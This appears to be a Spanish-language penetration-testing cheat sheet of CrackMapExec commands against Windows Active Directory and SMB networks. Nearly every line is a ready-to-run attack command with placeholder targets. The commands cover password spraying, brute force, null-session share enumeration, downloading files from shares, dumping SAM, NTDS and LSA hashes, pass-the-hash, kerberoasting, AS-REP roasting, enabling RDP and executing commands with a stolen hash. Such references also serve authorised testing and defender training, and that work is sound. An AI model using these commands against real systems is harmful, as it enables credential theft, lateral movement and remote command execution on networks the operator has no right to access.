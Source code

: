 ### Listar equipos dentro de la red de un AD:
$ crackmapexec smb 192.168.1.0/24
### SMB con credenciales a dominio WORKGROUP:
$ crackmapexec smb {IP-address} -u '{USERNAME}' -p '{PASSWORD}' -d WORKGROUP
### Password Spraying:
$ crackmapexec smb 192.168.1.0/24 -u '{USERNAME}' -p listpassword.txt
### Spraying Attack con usuario y contraseña lineal:
$ crackmapexec smb {IP-ADDRESS} -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
### Spraying Attack:
$ crackmapexec smb {IP} -u users.txt -p '{PASSWORD}' --continue-on-sucess
### Conocer en que equipos se puede autenticar especificando un usuario y password:
$ crackmapexec smb {IP/CIDR} -u '{USERNAME}' -p '{PASSWORD}'
### Enumeración de directorios compartidos SMB con NULL session:
$ crackmapexec smb {IP} -u 'null' -p ' '--shares
### Mostrar el contenido de un directorio compartido en SMB con credenciales:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' --spider {DIRECTORY-NAME} --regex .
### Descargar un archivo de un directorio compartido:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' --share {DIRECTORY-NAME} --get-file {FILE-NAME} {OUTPUT-NAME}
### Enumerar usuarios por Brute Force por RID:
$ crackmapexec smb {IP} -u 'guest' -p '' --rid-brute
### Dumping Hashes SAM:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' --sam
### Dumping Hashes NTLM:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' --ntds
### Dumping Hashes LSA:
$ crackmapexec smb {IP} -u 'Administrator' -p '{PASSWORD}' --lsa
### Dumping Hashes NTD:
$ crackmapexec smb {IP} -u 'Administrator' -H '{HASH-NT}' --ntds vss
### PassTheHash:
$ crackmapexec smb {IP} -u '{USERNAME}' -H '{HASH}' --local-auth
### LAPS:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' --laps
### Fuerza bruta para Autenticación a Kerberos:
$ crackmapexec smb {IP} -u users.txt -p '' --kerberos
### Ataque de kerberoasting:
$ crackmapexec ldap {IP} -u '{USERNAME}' -p '{PASSWORD}' --kerberoasting {OUTPUT-FILE}
### Ataque de Asreproast:
$ crackmapexec ldap {IP} -u '{USERNAME}' -p '{PASSWORD}' --asreproast {OUTPUT-FILE}
### Habilitar RDP con usuario y password de Administrador:
$ crackmapexec smb {IP} -u '{USERNAME}' -p '{PASSWORD}' -M rdp -o action=enable
### Ejecutar comandos usando el Hash:
$ crackmapexec smb {IP} -u '{USERNAME}' -H '{HASH}' -d {GROUP} -x 'COMMAND'